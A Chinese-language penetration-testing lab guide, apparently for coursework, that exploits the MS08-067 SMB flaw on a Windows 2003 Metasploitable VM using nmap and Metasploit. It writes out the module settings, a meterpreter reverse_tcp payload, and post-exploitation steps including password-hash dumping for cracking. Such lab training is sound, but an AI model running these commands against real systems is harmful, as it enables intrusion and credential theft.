







# 实验xx利用MS08_067漏洞渗透win2k3sp0

## 实验目的

1.掌握渗透测试框架 metasploit的基本用法
2.理解ms08_067漏洞利用的工作原理

## 注意：
kali2019与kali2中的exploit和payload不同，不能再利用kali201902成功渗透我windows 2k3 metasploitable。可以尝试使用ms17-010，但未验证实效。

## 实验内容

1.使用nmap扫描虚拟局域网内的活跃主机IP地址。
2.使用kali 2 虚拟机中的metasploit-framework对 win2k3 metasploitable虚拟机进行渗透。
3.根据实验步骤完成实验报告

## 实验步骤

1.打开虚拟机kali 201902。

2.打开虚拟机 win2k3 metasploitable。




3.确保这两台虚拟机都处于vmnet 8 虚拟网络中，即子网地址10.10.10.0/24 。


4.使用命令```ifconfig```查看kali的IP地址。



可知其IP地址，本例为10.10.10.133。

5.在kali中，打开terminal，运行下列命令，使用 nmap 对局域网内活跃主机进行扫描。
``` nmap -sN 10.10.10.0/24```



可知win2k3虚拟机的IP地址为10.10.10.130。

6.打开kali中的metasploit-framework.



7.运行下列命令，加载渗透代码。
```
# 加载渗透代码
use exploit/windows/smb/ms08_067_netapi
# 显示选项
show options
```



8.设置渗透选项。
```
# 设置RHOST
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.130
# 设置target
msf5 exploit(windows/smb/ms08_067_netapi) > set target 3
# 显示选项
msf5 exploit(windows/smb/ms08_067_netapi) > show options
```


9.执行下列命令，加载攻击载荷。
```
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp

# 还可以尝试下面的攻击载荷，但可能无法成功
# 设置windows/meterpreter/reverse_tcp为攻击载荷
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports

# 设置载荷参数lhost
msf5 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.10.133

# 查看参数
msf5 exploit(windows/smb/ms08_067_netapi) > show options

```




10.执行exploit命令启动攻击过程。
```msf5 exploit(windows/smb/ms08_067_netapi) > exploit ```

如果出现下图所示内容，意味着渗透成功。



11.此时可以使用help命令，查看meterpreter提供的命令。例如：

执行sysinfo命令查看目标系统信息：
```meterpreter> sysinfo ```

执行screenshot截取当前屏幕。
```meterpreter > screenshot ```

12.进入后攻击过程。

执行下列命令获得账户口令hash值。
```meterpreter > run post/windows/gather/smart_hashdump ```

获取的口令一般保存在“/root/.msf4/loot/”的某个文件中。之后可以使用hashcat等工具进行破解口令hash值。
